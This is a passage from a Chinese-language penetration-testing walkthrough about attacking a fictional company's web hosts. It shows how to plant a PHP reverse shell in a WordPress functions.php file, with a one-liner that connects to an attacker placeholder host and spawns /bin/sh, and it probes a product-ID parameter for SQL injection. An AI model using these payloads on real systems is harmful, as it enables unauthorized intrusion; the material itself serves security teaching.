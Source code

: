 好哇！我们能把我们的shellcode放进去吗？好吧，在WordPress上我们不能直接上传PHP文件，甚至不能从头开始创建。我们首先需要安装一个名为“insert\_php”的插件，或者编辑主题文件（“functions.php”）来插入我们的php代码片段，这些代码片段将调用反向shell。

添加到“functions.PHP”的PHP代码可以如下所示:

```text
$sock=fsockopen("FrontGun_IP",443);exec("/bin/sh <&3 >&3 2>&3");
```

#### 4、catalog.sph-assets.com

最后一个网站似乎是SPH向其客户提供产品的主机。我们可以通过简单的ID以浏览产品列表，如下所示: ![](.gitbook/assets/33.id.png)

我们可以推断，可能正在向后端服务器（最有可能是数据库）发出请求，以便根据提供的ID（上述请求中的13）获取产品。我们尝试通过注入特殊字符（引号、双引号等）进行进一步的探索，但没有什么有趣的结果：服务器用同样令人失望的空白页进行响应。

但是，如果我们用“14-1”替换13，例如，我们会得到产品13。很有趣。这可能意味着我们的算术运算实际上是由后端系统执行的。为了确认我们尝试再次使用“product/13+1”和“product/（select 14）”。 ![](.gitbook/assets/34.id2.png)
